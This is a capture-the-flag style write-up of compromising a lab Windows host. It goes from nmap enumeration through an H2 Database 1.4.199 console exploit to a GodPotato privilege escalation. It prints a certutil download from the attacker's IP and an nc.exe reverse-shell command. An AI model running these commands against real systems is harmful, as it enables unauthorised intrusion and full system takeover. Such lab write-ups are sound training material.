






Writeup by wook413

[TOC]

# Enumeration

## Nmap

I started with a comprehensive TCP scan of all 65,535 ports.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-     
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-15 03:15 UTC
Nmap scan report for 192.168.125.66
Host is up (0.045s latency).
Not shown: 60670 closed tcp ports (reset), 4852 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8082/tcp  open  blackice-alerts
9092/tcp  open  XmlIpcRegSvc
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 20.25 seconds
```

Once the open ports were identified, I followed up with a targeted service scan to pinpoint specific versions.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 80,135,139,445,5040,7680,8082,9092,49665,49666,49667,49668,49669
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-15 03:17 UTC
Nmap scan report for 192.168.125.66
Host is up (0.050s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: H2 Database Engine (redirect)
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8082/tcp  open  http          H2 database http console
|_http-title: H2 Console
9092/tcp  open  XmlIpcRegSvc?
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at <https://nmap.org/cgi-bin/submit.cgi?new-service> :
SF-Port9092-TCP:V=7.95%I=7%D=1/15%Time=69685C2D%P=x86_64-pc-linux-gnu%r(NU
SF:LL,516,"\\0\\0\\0\\0\\0\\0\\0\\x05\\x009\\x000\\x001\\x001\\x007\\0\\0\\0F\\0R\\0e\\0m\\0o\\
SF:0t\\0e\\0\\x20\\0c\\0o\\0n\\0n\\0e\\0c\\0t\\0i\\0o\\0n\\0s\\0\\x20\\0t\\0o\\0\\x20\\0t\\0h\\0i
SF:\\0s\\0\\x20\\0s\\0e\\0r\\0v\\0e\\0r\\0\\x20\\0a\\0r\\0e\\0\\x20\\0n\\0o\\0t\\0\\x20\\0a\\0l\\0
SF:l\\0o\\0w\\0e\\0d\\0,\\0\\x20\\0s\\0e\\0e\\0\\x20\\0-\\0t\\0c\\0p\\0A\\0l\\0l\\0o\\0w\\0O\\0t\\
SF:0h\\0e\\0r\\0s\\xff\\xff\\xff\\xff\\0\\x01`\\x05\\0\\0\\x024\\0o\\0r\\0g\\0\\.\\0h\\x002\\0\\
SF:.\\0j\\0d\\0b\\0c\\0\\.\\0J\\0d\\0b\\0c\\0S\\0Q\\0L\\0N\\0o\\0n\\0T\\0r\\0a\\0n\\0s\\0i\\0e\\0n
SF:\\0t\\0C\\0o\\0n\\0n\\0e\\0c\\0t\\0i\\0o\\0n\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0:\\0\\x20\\0
SF:R\\0e\\0m\\0o\\0t\\0e\\0\\x20\\0c\\0o\\0n\\0n\\0e\\0c\\0t\\0i\\0o\\0n\\0s\\0\\x20\\0t\\0o\\0\\x
SF:20\\0t\\0h\\0i\\0s\\0\\x20\\0s\\0e\\0r\\0v\\0e\\0r\\0\\x20\\0a\\0r\\0e\\0\\x20\\0n\\0o\\0t\\0\\
SF:x20\\0a\\0l\\0l\\0o\\0w\\0e\\0d\\0,\\0\\x20\\0s\\0e\\0e\\0\\x20\\0-\\0t\\0c\\0p\\0A\\0l\\0l\\0
SF:o\\0w\\0O\\0t\\0h\\0e\\0r\\0s\\0\\x20\\0\\[\\x009\\x000\\x001\\x001\\x007\\0-\\x001\\x009\\
SF:x009\\0\\]\\0\\r\\0\\n\\0\\t\\0a\\0t\\0\\x20\\0o\\0r\\0g\\0\\.\\0h\\x002\\0\\.\\0m\\0e\\0s\\0s\\0
SF:a\\0g\\0e\\0\\.\\0D\\0b\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0\\.\\0g\\0e\\0t\\0J\\0d\\0b\\0c\\0
SF:S\\0Q\\0L\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0\\(\\0D\\0b\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n
SF:\\0\\.\\0j\\0a\\0v\\0a\\0:\\x006\\x001\\x007\\0\\)\\0\\r\\0\\n\\0\\t\\0a\\0t\\0\\x20\\0o\\0r\\0g
SF:\\0\\.\\0h\\x002\\0\\.\\0m\\0e\\0s\\0s\\0a\\0g\\0e\\0\\.\\0D\\0b\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o
SF:\\0n\\0\\.\\0g\\0e\\0t\\0J\\0d\\0b\\0c\\0S\\0Q\\0L\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0\\(\\0D
SF:\\0b\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0\\.\\0j\\0a\\0v\\0a\\0:\\x004\\x002\\x007\\0\\)\\0\\
SF:r\\0\\n\\0\\t\\0a\\0t\\0\\x20\\0o\\0r\\0g\\0\\.\\0h\\x002\\0\\.\\0m\\0e\\0s\\0s\\0a\\0g\\0e\\0\\.
SF:\\0D\\0b\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0\\.\\0g\\0e\\0t\\0\\(\\0D\\0b\\0E\\0x\\0c\\0e\\0p
SF:\\0t\\0i\\0o\\0n\\0\\.\\0j\\0a\\0v\\0a\\0:\\x002\\x000\\x005\\0\\)\\0\\r\\0\\n\\0\\t\\0a\\0t\\0\\
SF:x20\\0o\\0r\\0g\\0\\.\\0h\\x002\\0\\.\\0m\\0e\\0s\\0s\\0a\\0g\\0e\\0\\.\\0D\\0b")%r(informi
SF:x,516,"\\0\\0\\0\\0\\0\\0\\0\\x05\\x009\\x000\\x001\\x001\\x007\\0\\0\\0F\\0R\\0e\\0m\\0o\\0
SF:t\\0e\\0\\x20\\0c\\0o\\0n\\0n\\0e\\0c\\0t\\0i\\0o\\0n\\0s\\0\\x20\\0t\\0o\\0\\x20\\0t\\0h\\0i\\
SF:0s\\0\\x20\\0s\\0e\\0r\\0v\\0e\\0r\\0\\x20\\0a\\0r\\0e\\0\\x20\\0n\\0o\\0t\\0\\x20\\0a\\0l\\0l
SF:\\0o\\0w\\0e\\0d\\0,\\0\\x20\\0s\\0e\\0e\\0\\x20\\0-\\0t\\0c\\0p\\0A\\0l\\0l\\0o\\0w\\0O\\0t\\0
SF:h\\0e\\0r\\0s\\xff\\xff\\xff\\xff\\0\\x01`\\x05\\0\\0\\x024\\0o\\0r\\0g\\0\\.\\0h\\x002\\0\\.
SF:\\0j\\0d\\0b\\0c\\0\\.\\0J\\0d\\0b\\0c\\0S\\0Q\\0L\\0N\\0o\\0n\\0T\\0r\\0a\\0n\\0s\\0i\\0e\\0n\\
SF:0t\\0C\\0o\\0n\\0n\\0e\\0c\\0t\\0i\\0o\\0n\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0:\\0\\x20\\0R
SF:\\0e\\0m\\0o\\0t\\0e\\0\\x20\\0c\\0o\\0n\\0n\\0e\\0c\\0t\\0i\\0o\\0n\\0s\\0\\x20\\0t\\0o\\0\\x2
SF:0\\0t\\0h\\0i\\0s\\0\\x20\\0s\\0e\\0r\\0v\\0e\\0r\\0\\x20\\0a\\0r\\0e\\0\\x20\\0n\\0o\\0t\\0\\x
SF:20\\0a\\0l\\0l\\0o\\0w\\0e\\0d\\0,\\0\\x20\\0s\\0e\\0e\\0\\x20\\0-\\0t\\0c\\0p\\0A\\0l\\0l\\0o
SF:\\0w\\0O\\0t\\0h\\0e\\0r\\0s\\0\\x20\\0\\[\\x009\\x000\\x001\\x001\\x007\\0-\\x001\\x009\\x
SF:009\\0\\]\\0\\r\\0\\n\\0\\t\\0a\\0t\\0\\x20\\0o\\0r\\0g\\0\\.\\0h\\x002\\0\\.\\0m\\0e\\0s\\0s\\0a
SF:\\0g\\0e\\0\\.\\0D\\0b\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0\\.\\0g\\0e\\0t\\0J\\0d\\0b\\0c\\0S
SF:\\0Q\\0L\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0\\(\\0D\\0b\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\
SF:0\\.\\0j\\0a\\0v\\0a\\0:\\x006\\x001\\x007\\0\\)\\0\\r\\0\\n\\0\\t\\0a\\0t\\0\\x20\\0o\\0r\\0g\\
SF:0\\.\\0h\\x002\\0\\.\\0m\\0e\\0s\\0s\\0a\\0g\\0e\\0\\.\\0D\\0b\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\
SF:0n\\0\\.\\0g\\0e\\0t\\0J\\0d\\0b\\0c\\0S\\0Q\\0L\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0\\(\\0D\\
SF:0b\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0\\.\\0j\\0a\\0v\\0a\\0:\\x004\\x002\\x007\\0\\)\\0\\r
SF:\\0\\n\\0\\t\\0a\\0t\\0\\x20\\0o\\0r\\0g\\0\\.\\0h\\x002\\0\\.\\0m\\0e\\0s\\0s\\0a\\0g\\0e\\0\\.\\
SF:0D\\0b\\0E\\0x\\0c\\0e\\0p\\0t\\0i\\0o\\0n\\0\\.\\0g\\0e\\0t\\0\\(\\0D\\0b\\0E\\0x\\0c\\0e\\0p\\
SF:0t\\0i\\0o\\0n\\0\\.\\0j\\0a\\0v\\0a\\0:\\x002\\x000\\x005\\0\\)\\0\\r\\0\\n\\0\\t\\0a\\0t\\0\\x
SF:20\\0o\\0r\\0g\\0\\.\\0h\\x002\\0\\.\\0m\\0e\\0s\\0s\\0a\\0g\\0e\\0\\.\\0D\\0b");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-01-15T03:19:44
|_  start_date: N/A

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 178.24 seconds
```

I also performed a UDP scan on the top 10 ports to check for any overlooked common services.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10                                                         
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-15 03:20 UTC
Nmap scan report for 192.168.125.66
Host is up (0.053s latency).

PORT     STATE         SERVICE
53/udp   closed        domain
67/udp   closed        dhcps
123/udp  open|filtered ntp
135/udp  closed        msrpc
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  closed        snmp
445/udp  closed        microsoft-ds
631/udp  closed        ipp
1434/udp open|filtered ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 6.95 seconds
```

# Initial Access

## SMB 139 445

Spotting SMB, I ran serveral Nmap scripts, specifically `smb-enum-shares` ,`smb-enum-users` , and `vuln` . However, they didn’t yield any leads.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP --script=smb-enum-shares.nse,smb-enum-users.nse -p 139,445 -sV
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-15 03:21 UTC
Nmap scan report for 192.168.125.66
Host is up (0.050s latency).

PORT    STATE SERVICE       VERSION
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 14.89 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=vuln -p 139,445                                  
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-15 03:22 UTC
Nmap scan report for 192.168.125.66
Host is up (0.044s latency).

PORT    STATE SERVICE       VERSION
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 33.95 seconds
```

I attempted Null Authentication, but the server blocked the attempt.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -N -L //$IP                    
session setup failed: NT_STATUS_ACCESS_DENIED
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbmap -H $IP        

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \\    /"  ||   _  "\\ |"  \\    /"  |     /""\\       |   __ "\\
  (:   \\___/  \\   \\  //   |(. |_)  :) \\   \\  //   |    /    \\      (. |__) :)
   \\___  \\    /\\  \\/.    ||:     \\/   /\\   \\/.    |   /' /\\  \\     |:  ____/
    __/  \\   |: \\.        |(|  _  \\  |: \\.        |  //  __'  \\    (|  /
   /" \\   :) |.  \\    /:  ||: |_)  :)|.  \\    /:  | /   /  \\   \\  /|__/ \\
  (_______/  |___|\\__/|___|(_______/ |___|\\__/|___|(___/    \\___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     <https://github.com/ShawnDEvans/smbmap>

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                      
[!] Something weird happened on (192.168.125.66) Error occurs while reading from remote(104) on line 1015                    
[*] Closed 1 connections
```

## RPC 135

Similarly, Null Authentication via rpcclient was also restricted.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ rpcclient -U "" -N $IP
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
```

## HTTP 80

Moving to the web services, I ran `http-enum` on the two active HTTP ports: 80 and 8082. They didn’t return anything noteworthy.

```bash
└─$ nmap $IP -sV --script=http-enum -p 80  
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-15 03:26 UTC
Nmap scan report for 192.168.125.66
Host is up (0.052s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 129.14 seconds
```



## HTTP 8082

Upon navigating to port 8082, I found a login interface for an H2 Database console. Most of the connection details were already auto populated, leaving only the password field empty.



I simply clicked “Connect” and gained access to the console, which identified the version as **`H2 1.4.199`**



A quick search on Searchsploit for that specific version turned up a relevant exploit.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit H2 Database 1.4.199
-------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                          |  Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
H2 Database 1.4.199 - JNI Code Execution                                                                | java/local/49384.txt
-------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

After verifying the exploit’s functionality, I successfully executed a command that identified the current user as `jacko\\tony`



To establish a more stable connection, I transferred `nc.exe` to the `C:\\Users\\Public` directory.





# Shell as `tony`

I successfully triggered a reverse shell; note that while the `whoami` command initially failed, it worked perfectly once I called its absolute path.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.236] from (UNKNOWN) [192.168.125.66] 50020
Microsoft Windows [Version 10.0.18363.836]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\\Program Files (x86)\\H2\\service>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.

C:\\Program Files (x86)\\H2\\service>C:\\Windows\\System32\\whoami
C:\\Windows\\System32\\whoami
jacko\\tony
```

Found `local.txt`

```bash
C:\\Users\\tony\\Desktop>type local.txt
type local.txt
7ad...
```

# Privilege Escalation

Current user `tony` has `SeImpersonatePrivilege` enabled.

```bash
C:\\Users\\tony\\Desktop>C:\\Windows\\System32\\whoami /priv
C:\\Windows\\System32\\whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

Transferred GodPotato binary over to the target machine.

```bash
C:\\Users\\tony\\Desktop>C:\\Windows\\System32\\certutil -urlcache -split -f <http://192.168.45.236:443/gp.exe> gp.exe
C:\\Windows\\System32\\certutil -urlcache -split -f <http://192.168.45.236:443/gp.exe> gp.exe
****  Online  ****
  0000  ...
  e000
CertUtil: -URLCache command completed successfully.
```

I had GodPotato binary connect to my reverse shell.

```bash
gp.exe -cmd ".\\nc.exe 192.168.45.236 8082 -e C:\\Windows\\System32\\cmd.exe"
[*] CombaseModule: 0x140735462309888
[*] DispatchTable: 0x140735464652384
[*] UseProtseqFunction: 0x140735464019984
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\\\.\\pipe\\8bb1dd72-4b3b-48c0-b067-7c1588d7f1f3\\pipe\\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00007002-0a04-ffff-1697-e287ebb5db01
[*] DCOM obj OXID: 0xa2444743f0516813
[*] DCOM obj OID: 0xdeecb812a7788494
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 800 Token:0x772  User: NT AUTHORITY\\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\\SYSTEM
[*] process start with pid 1568
```

# Shell as `system`

Successfully got the connection.

```bash
──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 8082
listening on [any] 8082 ...
connect to [192.168.45.236] from (UNKNOWN) [192.168.125.66] 50142
Microsoft Windows [Version 10.0.18363.836]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\\Windows\\system32>whoami
whoami
```

Found `proof.txt`

```bash
C:\\Users\\Administrator\\Desktop>type proof.txt
type proof.txt
6cd...
```